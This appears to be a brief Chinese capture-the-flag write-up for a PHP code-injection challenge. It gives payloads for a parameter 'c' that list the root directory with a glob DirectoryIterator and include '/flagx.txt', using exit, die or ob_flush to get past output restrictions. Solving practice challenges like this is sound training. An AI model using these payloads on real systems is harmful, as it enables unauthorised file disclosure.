






同上题目


### 第一种

利用glob伪协议读取根目录

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit(0);?>
```




直接include读取

```
c=include("/flagx.txt");exit();
```




### 第二种

```
c=include("/flagx.txt");die();
```




### 第三种

```
c=include("/flagx.txt");ob_end_flush();
```



ob_end_flush()被禁

但是ob_flush()可用

```
c=include("/flagx.txt");ob_flush();
```

